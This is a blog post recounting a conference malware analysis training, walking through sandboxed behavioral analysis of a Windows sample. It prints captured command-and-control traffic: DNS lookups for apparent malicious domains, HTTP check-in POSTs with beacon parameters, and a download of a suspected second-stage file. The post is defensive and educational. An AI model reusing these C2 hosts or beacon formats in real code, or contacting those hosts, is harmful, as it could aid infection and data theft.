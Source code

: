 +++
title = 'SecTor basic malware analysis training'
author = ['James Espinosa']
description = 'Malware analysis training at SecTor security conference.'
date = 2014-11-15T19:36:00-08:00
draft = false
tags = ['Malware Analysis', 'Reverse Engineering']
+++

Last month, I attended SecTor 2014 in Toronto, a beautiful city in Ontario, Canada. Actually, that was the first time I had ever attended the conference and visited the country. I had a great time, and I met a few people that really made the rest of my time out there worthwhile.

It has been a while since I last posted anything and thought I'd share some of the content that was presented during a basic malware analysis training session that I took at SecTor. You can find a better description of the session [here](http://sector.ca/Program/Training/Malware-Analysis-Training).

The class was put together by [The Herjavec Group](http://www.herjavecgroup.com/home/), an IT security firm based out of Toronto. As the description says, it was a basic hands-on class that attempted to introduce malware analysis tools and techniques for analyzing suspicious binaries. Although I would say I'm pretty familiar with basic malware analysis, I still wanted to take this class in hopes that I would learn a thing or two, particularly with analyzing exploit kits, which unfortunately we didn't get to due to time constraints. Nevertheless, it was an enjoyable course and I'd like to share some of the information in this post with you.

The first half of the course was an introduction to malware analysis, followed by a hands-on lab where we analyzed malware samples using basic behavioral analysis tools and techniques. Given the in-depth nature of the content, I'll only focus on the behavioral analysis aspect of the course. In particular, I'll walk through some of the tools that we used, and cover a basic analysis of a malicious binary by applying common analysis techniques.

Here's a list of a few tools that I will be using for my analysis:

- [REMnux](http://zeltser.com/remnux/)
- [Wireshark](https://www.wireshark.org)
- [Process Hacker](http://processhacker.sourceforge.net)
- [RegShot](http://sourceforge.net/projects/regshot/)
- [FakeNet](http://practicalmalwareanalysis.com/fakenet/)

REMnux is a Linux distribution for reverse engineering. It contains a number of very useful tools, both for static and dynamic analysis. I wanted to mention that because you can find a lot of tools packaged with the distribution that can help you perform just about any analysis.

In order to observe the behavior of an unknown binary, we need to run it in a clean machine. For my analysis, I will be using VMWare Fusion to run the sample in an isolated and controlled environment with no Internet access. The machine that I will be infecting is running a copy of Windows XP Professional SP3. So lets start.

First, I run all of the tools before executing the unknown binary. This will prepare the host to capture interesting data from the network, registry, process, and file disk levels.

Note, you will have to right-click on the images and select `Open Image in New Tab` to view the larger version.

Next, I take a snapshot of the current Windows Registry by clicking on the `1st shot` button in the RegShot window. I also check the `Scan dir` checkbox to capture file changes on disk. This will set a baseline and display any changes that occur on the Windows Registry after the malware is executed.

As you can probably tell, FakeNet does just as the name implies. It creates a fake network so the malware can think it is communicating with the outside world. FakeNet will also capture the network traffic so we can further analyze any connection and/or communication attempts with external hosts, such as command-and-control (CnC) servers. Once this is set, I run the malware and analyze the results.

This is obviously very basic, but you can see with just these three tools how much insight you can get into low-hanging fruit. I say this because more advanced malware can have evasion techniques that can detect the precense of virtualization and completely change its behavior. Behavioral analysis doesn't paint the whole picture. Depending on your goals, static analysis may also be necessary. Anyway, lets take a look at the results.

Upon execution, the executable ran for a brief moment and almost immediately I noticed multiple `HTTP POST` and `DNS` requests to suspicious domains in our FakeNet tool. Shortly after, the executable deleted itself from my Desktop and the process dissapeared from the Process Hacker console. I continued to see the network traffic being generated, so I suspected that the binary probably injected itself into another process. We'll hunt this down shortly, but first, lets take a look at the suspicious network traffic. For this, I cracked open Wireshark and loaded the PCAP file that was generated by FakeNet.

First, the `DNS` requests:

```
Standard query 0x57b9 A extensadv.cc
Standard query 0x4190 A topbeat.cc
Standard query 0x7011 A brainsphere.cc
```

Next, I noticed that our infected machine attempted to reach out to the domains via `SSL` on port 443. I followed the network stream to dig further into the details and here's an example of the types of requests that were generated:

```
GET /ping.html HTTP/1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 1.0.3705)
Host: extensadv.cc
Cache-Control: no-cache
Connection: Keep-Alive
```

Similarly, the same `HTTP GET` request on the other two domains:

```
GET /ping.html HTTP/1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 1.0.3705)
Host: topbeat.cc
Cache-Control: no-cache
Connection: Keep-Alive
```

Next, an interesting `HTTP POST` request was captured:

```
POST /ping.html HTTP/1.1
Connection: Keep-Alive
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 1.0.3705)
Host: extensadv.cc
Content-Length: 115
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded

key=a263d9918f&id=4E38CB2CA964A2C8E9410CE17EEF99A5&inst=master&net=HJ-UK-7&cmd=ping&bt=1313722115&ver=1.0.1.0&jt=28
```

This one is actually quite interesting. You can see that our infected host is sending data to the remote host. Although we can't tell what this information means just by looking at it, we have some really good indicators that can help identify other infected hosts, as well as generate detection signatures. Furthermore, it gives us something to chase during our static analysis stage, which we will not cover in this post.

The `HTTP POST` parameters in that request are:

- key
- id
- inst
- net
- cmd
- bt
- ver
- jt

If we dig through the code, we can get a much better idea of what those values are. Obviously, some of these do provide useful information. For example, `cmd` is a command. In this case, it looks like this is how the infected systems check-in to the C2 servers. This makes me wonder, what other commands does this malware support, if any?

After that initial request, additional network traffic can be observed:

```
POST /ping.html HTTP/1.1
Connection: Keep-Alive
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 1.0.3705)
Host: topbeat.cc
Content-Length: 82
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded

key=a263d9918f&id=4E38CB2CA964A2C8E9410CE17EEF99A5&inst=master&net=HJ-UK-7&cmd=cfg
```

Here, we continue to see the same parameters for the most part, with the exception of a few mentioned above, and a new `cmd` value.

Finally, the last request that is also of interest is the following:

```
GET /files/HJ-UK-7.jpg HTTP/1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 1.0.3705)
Host: topbeat.cc
Cache-Control: no-cache
Connection: Keep-Alive
```

This sample is attempting to download a file named `HJ-UK-7.jpg` from one of the C2 servers. Perhaps this is not an image but an update or a second stage piece of malware? Who knows, but it is definitely suspicious. Again, static analysis addresses these questions for us. This concludes the network traffic that was generated by this sample.

Next, lets chase down that likely injected process. As I mentioned, I suspected that it was injected into a different process because the file was deleted from the desktop and it was no longer running. The network traffic however, continued to get generated. So how did I chase this one down? Using Process Hacker, I looked in the `Network` tab and searched for a process that was communicating with a server on port 443. Remember, this is what we saw in our network traffic. Sure enough, the `Explorer.exe` process was the victim, which isn't uncommon.

To further confirm this, I dumped the strings from the process' memory using Process Hacker. I then searched for the `topbeat.cc` domain and found many references. I'm making the assumption that this process was injected, however, static analysis is ultimately the answer to this question.

That about wraps this post up. As you can see, with just a few tools, we were able to gather some really useful information that can now help us develop detection signatures, as well as act as indicators of compromise (IOC) to help identify other infected hosts on the network. With malware analysis, depending on your goals, you may also want to perform static analysis. This will help ensure that we get a much better picture and understanding of the details of this sample.
